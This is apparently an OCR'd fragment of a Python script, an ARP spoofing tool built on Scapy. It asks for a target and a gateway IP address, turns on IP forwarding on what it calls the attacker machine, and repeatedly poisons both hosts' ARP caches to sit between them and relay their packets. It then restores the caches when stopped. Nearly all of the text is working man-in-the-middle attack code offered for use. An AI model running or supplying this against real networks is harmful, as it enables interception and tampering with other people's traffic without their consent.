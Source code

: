 ```python
            packet[Ether].dst = gateway_mac
            sendp(packet, verbose=False)
        # Check if the packet is from the gateway to the target
        elif packet[IP].src == gateway_ip and packet[IP].dst == target_ip:
            packet[Ether].dst = target_mac
            sendp(packet, verbose=False)

if __name__ == "__main__":
    # User input for target and gateway IP addresses
    target_ip = input("Enter Target IP: ")
    gateway_ip = input("Enter Gateway IP: ")
    interface = input("Enter Network Interface (e.g., eth0, wlan0): ")

    # Get MAC addresses of target and gateway
    target_mac = get_mac(target_ip)
    gateway_mac = get_mac(gateway_ip)

    if target_mac is None or gateway_mac is None:
        print("Failed to get MAC address. Exiting.")
        sys.exit(1)

    # Enable IP forwarding on the attacker machine
    os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")

    try:
        print("Starting ARP spoofing. Press Ctrl+C to stop.")
        while True:
            # Spoof the target
            spoof(target_ip, gateway_ip, target_mac)
            # Spoof the gateway
            spoof(gateway_ip, target_ip, gateway_mac)
            time.sleep(2)
            print(f"[*] Total packets sent: {packet_count}")
    except KeyboardInterrupt:
        print("\nStopping ARP spoofing. Restoring network configuration...")
        # Restore the network configuration
        restore(target_ip, gateway_ip, target_mac, gateway_mac)
        restore(gateway_ip, target_ip, gateway_mac, target_mac)
        # Disable IP forwarding
        os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
        print("Network configuration restored. Exiting.")

```
